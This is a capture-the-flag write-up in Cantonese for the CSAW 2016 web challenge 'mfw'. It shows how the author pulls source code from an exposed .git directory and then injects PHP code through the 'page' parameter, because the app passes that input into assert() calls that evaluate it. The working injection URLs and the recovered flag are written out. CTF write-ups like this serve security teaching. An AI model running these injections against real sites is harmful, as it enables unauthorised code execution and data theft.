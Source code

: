 # CSAW CTF 2016 Quals: mfw

分類：Web 分數：125

Target: http://web.chal.csaw.io:8000/

## Exploration
入到去求其撳個 About 去到呢頁:
```
http://web.chal.csaw.io:8000/?page=about
```
然後佢話佢用 Git, PHP 同 Bootstrap 整個網喎

見到 PHP 同埋 page=乜乜乜 就條件反射試 PHP filter:
```
http://web.chal.csaw.io:8000/?page=php://filter/read=convert.base64-encode/resource=about
```
結果冇料到
之後求其試下個單引號睇下係唔係D 低能 SQLi 
```
http://web.chal.csaw.io:8000/?page='
```
結果竟然係 500 Server Error

## View Source
佢之前咪話自己用 Git, 信住先啦. 咁梗係試下 /.git/ :
```
http://web.chal.csaw.io:8000/.git/
```
有料到喎. 之後可以撳入去 objects 到將D files gzip decompress 返
唔鍾意人手玩既可以直接一野隊落黎再起返D missing files (即係 source code):
```
wget --mirror -I .git http://web.chal.csaw.io:8000/.git/ 
git checkout -- .
```
嗱 template 入面有個 flag.php, 不過一睇就知唔方好野:
```
<?php
// TODO
//$FLAG = '';
?>
```
混吉。
睇返 index.php 啦, 個 include file path 係
```
$file = "templates/" . $page . ".php";
```
所以你招 filter 冇用啦. 然後佢下面有兩句奇怪 assert statements check 你個 input 有冇D 蠱惑野
```
// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
```
但係好不幸地 PHP 會將 assert statement 入面既 string evaluate, 搞到好似 run 緊 eval 咁
所以點解頭先打個單引號會出 500, 因為 run 爛 code

## Exploitation
依家首先要砌到個 input 令到果兩句 assert statements 唔爛之餘又可以攝D code 入去 run 下:
```
http://web.chal.csaw.io:8000/?page=~(^o^)~

strpos('templates/~(^o^)~.php', '..') === false
file_exists('templates/~(^o^)~.php') 
```
最簡單就用 string concatenation:
```
http://web.chal.csaw.io:8000/?page=d'.strval(print(6*9)).'b

strpos('templates/d'.strval(print(6*9)).'b.php', '..') === false
file_exists('templates/d'.strval(print(6*9)).'b.php') 
```
咁樣段code 就冇爛, 重會 print 兩次 54
之後用個 highlight_file 讀 flag.php 個 source code:
```
http://web.chal.csaw.io:8000/?page=d'.strval(highlight_file('templates/flag.php')).'b
```
就會見到個 Flag 出現兩次
```
<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
```
